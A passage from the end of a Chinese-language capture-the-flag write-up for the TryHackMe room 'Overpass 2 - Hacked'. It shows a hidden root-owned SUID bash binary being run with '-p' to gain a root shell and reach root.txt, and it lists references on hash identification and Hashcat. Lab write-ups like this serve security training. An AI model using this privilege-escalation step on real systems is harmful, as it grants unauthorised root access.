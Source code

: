     + 发现有一个由root账户所拥有的隐藏二进制文件``.suid_bash``，可能直接用来提权，尝试执行：

    ```
    james@overpass-production:/home/james$ ./.suid_bash -p
    .suid_bash-4.4# whoami
    root
    .suid_bash-4.4# pwd
    /home/james
    .suid_bash-4.4# cd /root
    .suid_bash-4.4# ls
    root.txt    
    ```

## Reference 

[Overpass 2 - Hacked](https://tryhackme.com/room/overpass2hacked)

[【kali-密码攻击】（5.2.1）密码分析：Hash Identifier（哈希识别）](https://blog.csdn.net/qq_53079406/article/details/126255529)

[Hashcat wiki](https://hashcat.net/wiki/doku.php?id=hashcat)


